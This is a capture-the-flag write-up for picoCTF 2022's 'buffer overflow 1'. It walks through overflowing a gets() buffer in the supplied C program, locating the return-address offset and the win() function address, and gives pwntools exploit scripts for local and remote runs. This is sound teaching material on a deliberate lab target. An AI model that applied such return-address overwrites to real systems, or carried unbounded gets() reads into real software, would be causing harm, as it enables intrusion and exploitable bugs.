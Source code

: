 # buffer overflow 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Tags: picoCTF 2022, Binary Exploitation
Author: SANJAY C / PALASH OSWAL

Description:
Control the return address

Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here. And connect with it using nc saturn.picoctf.net 64722

Hints:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.
```

Challenge link: [https://play.picoctf.org/practice/challenge/258](https://play.picoctf.org/practice/challenge/258)

## Solution

### Analyze the given files

Let's start by looking at the given files. First the C source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We have a `main` function that calls a `vuln` function that is vulnerable to a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) due to the unbounded `gets` call. If we input more than `BUFSIZE`, that is 32 characters/bytes, we can overwrite the return address on the stack to call the `win` function instead of returning to `main`.

The `vuln` file is a 32-bit ELF binary

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ file vuln        
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped
```

### Manually identifying the offset

Next, we need to identify the offset on the stack to the return address from `vuln`. If we send a specific sequence of characters that is a [de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) we can easily calculate the offset to the memory address.

Creation of such a sequence can be done with [pwntools](https://docs.pwntools.com/en/stable/index.html) `cyclic` or [metasploit's](https://www.metasploit.com/) `msf-pattern_create`.

And the lookup of the offset can then be done with `cyclic` or `msf-pattern_offset`.

We create a string that is a bit longer than `32` bytes, say `100` bytes.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic 100   
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic 100 > pattern_100.txt
```

Then we try it out locally

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ cat pattern_100.txt | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: done                cat pattern_100.txt | 
zsh: segmentation fault  ./vuln
```

The returned value is `0x6161616c`. Let's look this up

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/cyclic -l 0x6161616c  
44
```

So the offset on the stack to the return address is `44` bytes.

### Get the addess of the win function

Now we need to find out the virtual address of the `win` function.  
This can be done with `objdump`

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ objdump -t vuln | grep win
080491f6 g     F .text  0000008b              win
```

Or with `gdb`

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ gdb -batch -ex 'info functions' vuln | grep win
0x080491f6  win
```

So the address to `win` is `0x080491f6`.

### Write an exploit

Let's write a small exploit in Python with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html)

```python
#!/usr/bin/python

from pwn import *
import sys

# Use either cyclic or msf-pattern_create/msf-pattern_offset to find the correct offset
offset = 44
padding = b'A'

win = p32(0x080491f6)      # Address to win function
payload = padding*offset + win
    
sys.stdout.buffer.write(payload)
```

Note that I used `sys.stdout.buffer.write` here rather than `print`.  
`print` will most likely UTF-8 encode your output and it won't work!

And then we try it out locally

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ echo "picoCTF{fake_flag}" > flag.txt          

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/python local_exploit.py | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{fake_flag}
zsh: done                ~/python_venvs/pwntools/bin/python local_exploit.py | 
zsh: segmentation fault  ./vuln
```

It works, but later the program crashes due to un invalid memory address after the `win` function.  
We can ignore this.

### Get the flag

Finally, we modify the Python script to connect to the server instead

```python
#!/usr/bin/python

from pwn import *

SERVER = 'saturn.picoctf.net'
PORT = 64722

io = remote(SERVER, PORT)

# Use either cyclic or msf-pattern_create/msf-pattern_offset to find the correct offset
offset = 44
padding = b'A'

win = p32(0x080491f6)      # Address to win function
payload = padding*offset + win
    
sys.stdout.buffer.write(payload)
    
io.sendline(payload)
print(io.recvallS())
io.close()
```

And then we run the script to get the flag

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_1]
└─$ ~/python_venvs/pwntools/bin/python remote_exploit.py             
[+] Opening connection to saturn.picoctf.net on port 64722: Done
[+] Receiving all data: Done (127B)
[*] Closed connection to saturn.picoctf.net port 64722
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Buffer overflow - Wikipedia](https://en.wikipedia.org/wiki/Buffer_overflow)
- [C (programming language) - Wikipedia](https://en.wikipedia.org/wiki/C_(programming_language))
- [de Bruijn sequence - Wikipedia](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
- [gdb - Linux manual page](https://man7.org/linux/man-pages/man1/gdb.1.html)
- [gets function - cplusplus.com](https://cplusplus.com/reference/cstdio/gets/)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [objdump - Linux manual page](https://man7.org/linux/man-pages/man1/objdump.1.html)
- [python - Linux manual page](https://linux.die.net/man/1/python)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
